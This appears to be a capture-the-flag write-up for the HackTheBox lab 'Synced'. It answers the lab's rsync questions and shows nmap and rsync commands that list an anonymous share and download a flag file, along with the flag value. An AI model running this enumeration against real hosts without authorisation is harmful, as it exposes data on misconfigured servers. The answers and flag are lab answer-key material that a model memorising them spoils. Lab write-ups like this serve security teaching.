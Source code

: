 ```yaml
---
title: 🔵 HTB - Synced
date: 2023-08-17
categories: [HackTheBox, Machines]
tags: [rsync]
---
```


# Synced

What is the default port for rsync?

`873`

How many TCP ports are open on the remote host?

`1`

What is the protocol version used by rsync on the remote machine?

`31`

What is the most common command name on Linux to interact with rsync?

`rsync`

What credentials do you have to pass to rsync in order to use anonymous authentication?

`None`

What is the option to only list shares and files on rsync?

`--list-only`

Submit root flag

```bash
$ nmap -sV -p- <ip>
...
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

$ rsync --list-only <ip>::
public         	Anonymous Share

$ rsync --list-only <ip>::public
drwxr-xr-x          4,096 2022/10/24 23:02:23 .
-rw-r--r--             33 2022/10/24 22:32:03 flag.txt

$ rsync -azvh None@<ip>::public ./
receiving incremental file list
./
flag.txt

sent 50 bytes  received 158 bytes  24.47 bytes/sec
total size is 33  speedup is 0.16

$ cat flag.txt
72eaf5344ebb84908ae543a719830519
```
